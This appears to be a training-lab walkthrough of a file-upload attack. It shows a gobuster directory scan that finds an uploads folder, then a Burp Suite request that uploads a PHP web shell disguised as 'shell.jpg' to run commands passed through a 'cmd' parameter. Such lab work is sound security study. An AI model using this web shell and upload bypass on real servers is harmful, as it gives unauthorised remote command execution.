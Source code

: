 `gobuster dir --url https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/ --wordlist /usr/share/wordlists/dirb/common.txt`:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 168]
/.htaccess            (Status: 403) [Size: 168]
/.htpasswd            (Status: 403) [Size: 168]
/index.php            (Status: 200) [Size: 3398]
/static               (Status: 301) [Size: 184] [--> http://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/static/]
/uploads              (Status: 301) [Size: 184] [--> http://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/uploads/]📌
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------3389900069635376210896551091
Content-Length: 254
Origin: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
Referer: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------3389900069635376210896551091
Content-Disposition: form-data; name="fileToUpload"; filename="shell.jpg"📌
Content-Type: image/jpeg

<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>".$output."</pre>"
?>📌

-----------------------------3389900069635376210896551091--
```